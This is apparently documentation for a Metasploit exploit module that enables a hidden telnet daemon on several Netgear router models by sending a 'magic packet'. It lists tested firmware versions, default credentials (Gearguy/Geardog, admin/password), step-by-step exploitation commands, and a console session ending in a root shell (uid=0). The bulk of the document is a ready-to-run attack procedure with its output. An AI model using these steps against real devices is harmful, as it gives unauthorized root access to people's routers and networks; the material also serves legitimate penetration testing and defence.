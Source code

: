 ## Intro

Several models of Netgear devices have a hidden telnet daemon that can be
enabled for remote LAN users by sending a 'magic packet' to the device. 
Upon successful connect, a root shell should be presented to the user.

There are many devices which contain this daemon, for a full list see [OpenWrt](https://wiki.openwrt.org/toh/netgear/telnet.console)

This module has been successfully tested against:

 - AC1450 in whatever version I bought it with (TCP)
 - AC1450 latest V1.0.0.36_10.0.17 (UDP)
 - N300 WNR2000 v3 V1.1.2.10 (TCP)

## Setup

A MAC address is required for exploitation.  To determine the MAC address of the device:

1. Ping the device to force an ARP lookup: ```ping -c 1 [IP]```
2. Get the MAC: ```arp -an [IP]```

## Targets

**0 (Automatic)**

Detect if a device listens on TCP or UDP.

**1 (TCP)**

Older devices usually listen on TCP.

**2 (UDP)**

Newer devices usually listen on UDP.

## Options

**MAC**

Set this to the MAC address of the device. You can use `ping` and `arp`
to find it.

**USERNAME**

If this is an older device, it'll take the value of `super_username` in
`nvram`. `Gearguy` is usually correct.

If this is a newer device, it'll take the web UI username, which is
usually unchanged from `admin`.

**PASSWORD**

If this is an older device, it'll take the value of `super_passwd` in
`nvram`. `Geardog` is usually correct.

If this is a newer device, it'll take the web UI password, which is
usually unchanged from `password`.

## Exploitation 

1. Make sure you have a vulnerable device
2. Start metasploit
3. ```use exploit/linux/telnet/netgear_telnetenable```
4. ```set rhost [IP]```
5. ```set mac [MAC Address]```
6. ```exploit```
7. Enjoy a root shell!

## Usage

```
msf5 > use exploit/linux/telnet/netgear_telnetenable
msf5 exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf5 exploit(linux/telnet/netgear_telnetenable) > ping -c 1 192.168.1.1
[*] exec: ping -c 1 192.168.1.1

PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=1.19 ms

--- 192.168.1.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.198/1.198/1.198/0.000 ms
msf5 exploit(linux/telnet/netgear_telnetenable) > arp -an 192.168.1.1
[*] exec: arp -an 192.168.1.1

? (192.168.1.1) at [redacted] [ether] on wlan0
msf5 exploit(linux/telnet/netgear_telnetenable) > set mac [redacted]
mac => [redacted]
msf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[+] 192.168.1.1:23 - Using creds admin:password
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.

id
id
uid=0 gid=0(root)
# uname -a
uname -a
Linux (none) 2.6.36.4brcmarm+ #16 SMP PREEMPT Wed Mar 22 15:02:38 CST 2017 armv7l unknown
#
```

If you've already exploited TelnetEnable, the exploit will attempt to
connect to `telnetd` directly. This saves us from sending the magic
packet again.

```
msf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetd on TCP
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
```
